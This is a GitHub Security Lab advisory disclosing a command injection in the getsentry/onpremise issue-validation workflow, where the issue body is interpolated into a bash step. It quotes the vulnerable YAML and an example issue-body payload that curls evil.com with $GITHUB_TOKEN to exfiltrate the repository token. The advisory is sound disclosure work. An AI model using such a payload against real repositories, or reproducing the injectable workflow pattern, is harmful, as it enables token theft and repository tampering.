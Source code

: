<header class="post-header d-block mb-6">
      <div class="date text-mono f5 my-3">February 3, 2021</div>
      <h1 class="my-2 h00-mktg lh-condensed">GHSL-2021-010: Command injection in getsentry/onpremise workflow</h1>

      
      
      
      
      

      

      <a target="_blank" class="sc-frDJqD SgxRc d-inline-flex flex-row flex-items-center text-gray" href="https://github.com/jarlob">
        <img class="mr-3" src="https://avatars.githubusercontent.com/u/26652396?s=35" height="35" width="35">
        <span>Jaroslav Lobacevski</span>
      </a>
    </header>

    <main id="content" class="markdown-body" aria-label="Content">
      <h2 id="coordinated-disclosure-timeline">Coordinated Disclosure Timeline</h2>

<ul>
  <li>2021-01-18: Report sent to maintainers.</li>
  <li>2021-01-19: Issue resolved.</li>
</ul>

<h2 id="summary">Summary</h2>

<p>The <a href="https://github.com/getsentry/onpremise/blob/master/.github/workflows/validate-new-issue.yml">validate-new-issue.yml</a> GitHub workflow is vulnerable to unauthorized modification of the base repository or secrets exfiltration.</p>

<h2 id="product">Product</h2>

<p><a href="https://github.com/getsentry/onpremise">getsentry/onpremise GitHub repository</a></p>

<h2 id="tested-version">Tested Version</h2>

<p>The latest changeset <a href="https://github.com/getsentry/onpremise/blob/2e3ad5df88610ea0d329c93e2ec7a1f9655a7ef6/.github/workflows/validate-new-issue.yml">validate-new-issue.yml</a> to the date.</p>

<h2 id="details">Details</h2>

<h3 id="issue-issue-body-is-used-to-format-a-shell-command">Issue: Issue body is used to format a shell command</h3>

<div class="language-yaml highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="na">on</span><span class="pi">:</span>
  <span class="na">issues</span><span class="pi">:</span>
    <span class="na">types</span><span class="pi">:</span> <span class="pi">[</span><span class="s1">'</span><span class="s">opened'</span><span class="pi">]</span>
<span class="nn">...</span>
      <span class="na">env</span><span class="pi">:</span>
        <span class="na">GITHUB_TOKEN</span><span class="pi">:</span> <span class="s">${{ github.token }}</span>
      <span class="na">run</span><span class="pi">:</span> <span class="pi">|</span>
        <span class="s"># Trust users who belong to the getsentry org.</span>
        <span class="s">if gh api "https://api.github.com/orgs/getsentry/members/${{ github.actor }}" &gt;/dev/null 2&gt;&amp;1; then</span>
          <span class="s">echo "Skipping validation, because ${{ github.actor }} is a member of the getsentry org."</span>
          <span class="s">exit 0</span>
        <span class="s">else</span>
          <span class="s">echo "${{ github.actor }} is not a member of the getsentry org. 🧐"</span>
        <span class="s">fi</span>
        <span class="s"># Look for a template where the headings match this issue's</span>
        <span class="s">echo "${{ github.event.issue.body }}" &gt; issue-body</span>
<span class="s">...</span>
</code></pre></div></div>

<h4 id="impact">Impact</h4>

<p>This vulnerability allows for arbitrary command injection into the bash script which allows for unauthorized modification of the base repository and secrets exfiltration. For example a user may create an issue with the title <code class="language-plaintext highlighter-rouge">It doesn't work on my machine</code> and body <code class="language-plaintext highlighter-rouge">`curl http://evil.com?$GITHUB_TOKEN`</code> which will exfiltrate the repository token capable to to modify the repository to the attacker controlled server. To make the attack less visible an attacker may modify the body of the issue to <code class="language-plaintext highlighter-rouge">Never mind my bad.</code> and close it.</p>

<h2 id="credit">Credit</h2>

<p>This issue was discovered and reported by GHSL team member <a href="https://github.com/JarLob">@JarLob (Jaroslav Lobačevski)</a>.</p>

<h2 id="contact">Contact</h2>

<p>You can contact the GHSL team at <code class="language-plaintext highlighter-rouge">securitylab@github.com</code>, please include a reference to <code class="language-plaintext highlighter-rouge">GHSL-2021-010</code> in any communication regarding this issue.</p>

